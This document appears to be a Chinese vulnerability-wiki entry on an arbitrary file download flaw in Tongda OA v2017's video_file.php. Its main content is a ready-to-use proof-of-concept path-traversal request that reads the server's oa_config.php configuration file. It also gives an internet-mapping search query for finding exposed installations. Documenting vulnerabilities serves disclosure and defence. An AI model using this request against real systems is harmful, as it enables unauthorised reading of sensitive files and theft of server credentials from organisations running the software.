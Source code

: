 # 通达OA v2017 video_file.php 任意文件下载漏洞

## 漏洞描述

通达OA v2017 video_file.php文件存在任意文件下载漏洞，攻击者通过漏洞可以读取服务器敏感文件

## 漏洞影响

<a-checkbox checked>通达OA v2017</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="TDXK-通达OA"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1657609448877-d05e2d6d-6c83-456d-a088-ee09cea92c30-20220712150651348.png)

验证POC

```php
/general/mytable/intel_view/video_file.php?MEDIA_DIR=../../../inc/&MEDIA_NAME=oa_config.php	
```

![img](/assets/PeiQi-Wiki/img/1657609468826-7eec4875-7f16-4b37-a13d-2a6e73d2f1ce.png)